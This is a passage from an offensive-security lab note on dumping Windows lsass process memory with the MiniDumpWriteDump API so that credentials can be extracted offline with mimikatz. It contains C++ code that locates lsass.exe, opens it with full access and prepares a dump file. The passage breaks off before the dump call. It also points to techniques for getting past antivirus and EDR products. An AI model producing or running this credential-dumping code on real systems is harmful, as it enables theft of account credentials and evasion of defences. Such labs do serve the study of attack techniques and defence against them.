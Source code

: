 ```yaml
---
description: 'Evasion, Credential Dumping'
---
```


# Dumping Lsass without Mimikatz with MiniDumpWriteDump

This lab explores multiple ways of how we can write a simple `lsass` process dumper using `MiniDumpWriteDump` API. Lsass process dumps created with `MiniDumpWriteDump` can be loaded to mimikatz offline, where credential materials could be extracted.

{% hint style="warning" %}
Note that you may get flagged by AVs/EDRs for reading lsass process memory. Depending on what AV/EDR you are dealing with, see other notes:  
[Bypassing Cylance and other AVs/EDRs by Unhooking Windows APIs](../defense-evasion/bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis.md) and [Full DLL Unhooking with C++](../defense-evasion/how-to-unhook-a-dll-using-c++.md)
{% endhint %}

## MiniDumpWriteDump to Disk

It's possible to use `MiniDumpWriteDump` API call to dump lsass process memory.

### Code

{% code title="dumper.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
    DWORD lsassPID = 0;
    HANDLE lsassHandle = NULL; 

    // Open a handle to lsass.dmp - this is where the minidump file will be saved to
    HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    // Find lsass PID    
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
        wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
    }

    // Open handle to lsass.exe process
    lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

    // Create minidump
```